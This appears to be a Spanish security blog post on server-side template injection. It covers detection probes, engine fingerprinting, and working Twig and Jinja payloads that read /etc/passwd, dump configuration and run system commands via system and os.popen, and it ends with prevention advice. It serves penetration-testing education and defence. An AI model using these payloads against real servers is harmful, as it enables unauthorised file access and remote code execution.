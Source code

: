 ```yaml
---
date: 2025-10-20T16:15:05.000Z
layout: post
comments: true
title: "Server-side Template Injection"
subtitle: 'SSTI'
description: >-
image: >-
  /images/sstilogo.png
optimized_image: >-
  /images/sstilogo.png
category: ciberseguridad
tags:
  - web
  - rce
  - owasp
  - php
  - ssti
author: Felipe Canales Cayuqueo
paginate: true
---
```


La inyección de plantillas del lado del servidor (SSTI) ocurre cuando un atacante logra insertar código dentro de una plantilla que luego es procesada por el servidor. Esto permite que el código malicioso se ejecute durante el renderizado, pudiendo comprometer por completo el sistema. La vulnerabilidad surge cuando la aplicación inserta directamente la entrada del usuario en la plantilla antes de renderizarla, o cuando el mismo contenido renderizado se vuelve a procesar, provocando que la entrada del usuario sea tratada como parte del código de plantilla.

### Identificación

Para poder confirmar la vulnerabilidad se debe provocar un mensaje de error en la aplicación web con el siguiente payload.

{% raw %}
```
${{<%[%'"}}%\. 
```
{% endraw %}

Tras identificar la posible vulnerabilidad, se debe determinar el motor de plantilla utilizado por la aplicación web a través de la siguiente tabla. 

[![ssti7](/images/ssti7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti7.png)

#### Payloads

{% raw %}
* ```${7*7}```

* ```a{*comment*}b```

* ```${"z".join("ab")}```

* ```{{7*7}}```

* ```{{7*'7'}}```
{% endraw %}

#### Ejemplo

* Primero ingresamos ```${7*7}```, como no se interpretó significa que debemos seguir de la tabla la flecha que dice "no funciona".

    [![ssti1](/images/ssti1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti1.png)

    [![ssti2](/images/ssti2.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti2.png)

* La tabla nos indica que debemos ahora probar con el payload ```{{7*7}}```, con el cual obtenemos éxito y se interpreta.

    [![ssti3](/images/ssti3.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti3.png)

    [![ssti4](/images/ssti4.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti4.png)

* Como funcionó ahora debemos validar ```{{7*'7'}}``` donde obtenemos como resultado 49, es decir siguiendo la tabla nos estamos enfrentando ante un motor de plantillas "Twig".

    [![ssti5](/images/ssti5.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti5.png)

    [![ssti6](/images/ssti6.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti6.png)


### Explotación de Twig

Para este caso tenemos ciertas funciones internas para obtener más información e incluso obtener acceso al sistema.

#### Divulgación de información

Con la función ```_self``` es posible obtener más información de la plantilla.

{% raw %}
```
{{ _self }}
```
{% endraw %}


#### Local File Inclusion

El marco web PHP Symfony define filtros Twig adicionales y uno de estos filtros es ```file_excerpt``` que permite leer archivos locales del sistema.

{% raw %}
```
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
{% endraw %}

#### Ejecución remota de comandos (RCE)

Para lograr la ejecución remota de código, podemos utilizar una función incorporada de PHP como ```system```. Podemos pasar un argumento a esta función usando ```filter```.

{% raw %}
```
{{ ['id'] | filter('system') }}
```
{% endraw %}

### Explotación de Jinja

Jinja es un motor de plantillas utilizado en frameworks de Python como Flask o Django. En este tipo de vulnerabilidad, el atacante puede aprovechar que Jinja permite acceder a bibliotecas ya importadas por la aplicación, tanto de forma directa como indirecta, e incluso importar nuevas mediante la instrucción ```import```, lo que amplía su capacidad para ejecutar código malicioso en el servidor.

#### Divulgación de información

Es posible obtener información interna sobre el sistema, incluidos detalles de configuración e incluso el código fuente de la aplicación web.

{% raw %}
```
{{ config.items() }}
```
{% endraw %}

También podemos obtener información sobre las funciones integradas disponibles en el código fuente.

{% raw %}
```
{{ self.__init__.__globals__.__builtins__ }}
```
{% endraw %}

#### Local File Inclusion

Para explotar esta vulnerabilidad debemos utilizar la función incorporada de Python ```open``` en conjunto con ```__builtins__```.

{% raw %}
```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
{% endraw %}

#### Ejecución remota de comandos (RCE)

Para lograr la ejecución remota de comandos debemos utilizar funciones proporcionadas por el módulo ```os```, ```system``` o ```popen```.

{% raw %}
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
{% endraw %}

> Se recomienda la herramienta automatizada [SSTImap](https://github.com/vladko312/SSTImap).

### Recomendaciones

Para prevenir vulnerabilidades SSTI, es fundamental garantizar que la entrada del usuario nunca se inserte directamente en las plantillas antes del proceso de renderizado. Se debe validar y sanear toda entrada, evitando que contenga caracteres o estructuras que puedan ser interpretadas como código. Además, los datos del usuario deben pasar únicamente como valores de contexto y no como parte del código de plantilla. Es recomendable utilizar motores de plantillas configurados con opciones de seguridad activadas, eliminar funciones peligrosas como eval o import, y aislar el entorno de ejecución mediante contenedores o entornos separados.
